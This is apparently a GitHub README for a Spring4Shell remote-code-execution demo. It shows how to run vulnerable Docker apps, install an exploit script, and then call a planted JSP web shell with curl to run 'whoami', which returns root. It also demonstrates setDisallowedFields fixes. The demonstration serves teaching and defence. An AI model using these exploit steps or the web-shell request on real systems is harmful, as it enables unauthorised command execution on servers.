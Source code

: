 # Spring4Shell RCE Demo
![MindMap](spring4shell_mindmap.svg)
## Types of demo

1. spring-mvc (with spring-boot) deployed as a war to Apache Tomcat
2. spring-boot war with jsp, to be run as `java -jar`
3. spring-boot jar without jsp, to be run as `java -jar`

While the first spring-mvc in Apache Tomcat is vulnerable, the latter two types -- where spring-boot runs in Embedded Tomcat Servlet Container -- do not appear to be vulnerable. See also https://www.praetorian.com/blog/spring-core-jdk9-rce/

Lastly, `spring4shell-exploit.sh` is a standalone bash script for testing the exploit against any app.

## Run spring-mvc demo

To run the spring-mvc demo, the war file needs to be deployed to a Tomcat container.

For convenience, there is a pre-built docker container. Here is how see the exploit in action:
```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell

# Install and run the exploit
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
> GET /tomcatwar.jsp?pwd=j&cmd=whoami HTTP/1.1
> Host: localhost:8080
> Accept: */*
> 
< HTTP/1.1 200 
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 2291
< 
root
```

<br/>

The demo also contains two fixes.

One fix is to apply binder [setDisallowedFields() at controller level](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/SafeHelloWorldController.java#L22-L29):
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm dotnes/spring4shell

# Try to install the exploit against safe controller. It should fail
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/safe-helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
curl: (22) The requested URL returned error: 404
```

Another fix is to apply [setDisallowedFields() with a controller advice](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/BinderControllerAdvice.java#L7-L20), for all controllers:
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm -e APPLY_ADVICE=true maxhyper/spring4shell

# Install and run the exploit against unsafe controller. It should fail.
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404 
```

## Run spring-boot war with jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell-spring-boot-war

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404
```

## Run spring-boot jar without jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell-spring-boot-jar

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404
```

